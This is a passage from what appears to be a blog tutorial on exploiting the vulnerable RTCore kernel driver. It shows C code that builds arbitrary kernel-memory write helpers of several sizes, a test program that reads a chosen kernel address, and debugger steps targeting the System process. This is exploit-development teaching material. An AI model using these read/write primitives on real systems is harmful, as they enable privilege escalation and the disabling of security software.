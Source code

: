 Next, let's create functions for writing values of different sizes, which will use the primitive function:  

```c
BOOL RTCoreWrite8(ULONG_PTR Address, BYTE Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite16(ULONG_PTR Address, WORD Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite32(ULONG_PTR Address, DWORD Value) {
	return RTCoreWriteMemory(Address, sizeof(Value), Value);
}

BOOL RTCoreWrite64(ULONG_PTR Address, DWORD64 Value) {
	DWORD dwLow, dwHigh;

	dwLow = Value & 0xffffffff;
	dwHigh = (Value >> 32) & 0xffffffff;

	return RTCoreWrite32(Address, dwLow) && RTCoreWrite32(Address + 4, dwHigh);
}
```

Finally, let's create a main function with test code to verify that the program works:  

```c
int main() {
	DWORD64 Address = 0;
	DWORD Value = 0;

	if (!OpenRTCoreDevice()) {
		CloseRTCoreDevice();
		return 0;
	}

	printf("Input target address: ");
	scanf_s("%llx", &Address);
	RTCoreRead32((ULONG_PTR)Address, &Value);

	CloseRTCoreDevice();
	return 0;
}
```

Compile it statically and lets run it on the VM with debugger attached to find an address to read and verify the value is read correctly.   

From Windbg I decided to read the third DWORD after the address of the System process - 0x9fa86048.  

![Windbg](https://idafchev.github.io/blog/assets/images/driver_vulnerability/read_test_windbg.png){: .align-center}  
